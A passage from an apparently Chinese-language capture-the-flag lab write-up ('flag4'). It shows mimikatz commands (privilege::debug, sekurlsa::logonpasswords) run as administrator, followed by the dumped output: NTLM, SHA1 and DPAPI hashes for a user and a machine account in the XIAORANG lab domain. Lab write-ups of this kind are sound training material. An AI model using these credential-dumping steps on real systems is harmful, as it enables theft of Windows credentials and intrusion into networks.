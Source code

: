 ## flag4

上传一个 mimikatz 管理员运行

```bash
privilege::debug
sekurlsa::logonpasswords
```

抓出用户哈希

```bash
Authentication Id : 0 ; 2375709 (00000000:0024401d)
Session           : RemoteInteractive from 2
User Name         : Zhangtong
Domain            : XIAORANG
Logon Server      : XIAORANG-WIN16
Logon Time        : 2023/10/26 15:35:02
SID               : S-1-5-21-533686307-2117412543-4200729784-1147
        msv :
         [00000003] Primary
         * Username : Zhangtong
         * Domain   : XIAORANG
         * NTLM     : 22c7f81993e96ac83ac2f3f1903de8b4
         * SHA1     : 4d205f752e28b0a13e7a2da2a956d46cb9d9e01e
         * DPAPI    : ed14c3c4ef895b1d11b04fb4e56bb83b
        tspkg :
        wdigest :
         * Username : Zhangtong
         * Domain   : XIAORANG
         * Password : (null)
        kerberos :
         * Username : Zhangtong
         * Domain   : XIAORANG.LAB
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 2336551 (00000000:0023a727)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2023/10/26 15:35:01
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : XIAORANG-EXC01$
         * Domain   : XIAORANG
         * NTLM     : fd8408d2e99712fd9c0e3f9ff5a4a68a
         * SHA1     : 81696b3c14ee113350769e17397aac9a02071843
        tspkg :
        wdigest :
         * Username : XIAORANG-EXC01$
         * Domain   : XIAORANG
         * Password : (null)
        kerberos :
         * Username : XIAORANG-EXC01$
         * Domain   : xiaorang.lab
```